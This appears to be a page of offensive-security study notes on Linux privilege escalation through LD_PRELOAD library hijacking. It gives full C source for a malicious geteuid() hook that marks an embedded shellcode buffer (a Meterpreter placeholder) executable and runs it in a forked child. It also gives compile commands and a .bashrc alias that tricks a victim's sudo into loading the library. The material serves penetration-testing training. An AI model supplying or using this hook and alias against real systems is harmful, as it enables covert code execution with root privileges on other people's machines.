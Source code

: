 To get the function calls we can use ltrace:

```bash
ltrace cp
```

We have chosen the geteuid() function call to hook as this is only runs once in the cp.

Let's create the malicous hook:
#hook #c #priv-esc-linux 
```C
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = "<meterpreter>";

uid_t geteuid(void)
{
    // create the pointer to old_geteuid to execute it at the end
    typeof(geteuid) *old_geteuid;
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");


    if (fork() == 0)
    {
    intptr_t pagesize = sysconf(_SC_PAGESIZE);
    if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
    pagesize, PROT_READ|PROT_EXEC)) {
        perror("mprotect");
        return -1;
        }
    int (*ret)() = (int(*)())buf;
    ret();
    }
    else
    {
    printf("HACK: returning from function...\n");
    return (*old_geteuid)();
    }
    printf("HACK: Returning from main...\n");
    return -2
    }

// To comiple:
// gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
// gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl

```


To trick the victim place the following alias in the .bashrc
#priv-esc-linux 
```bash
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
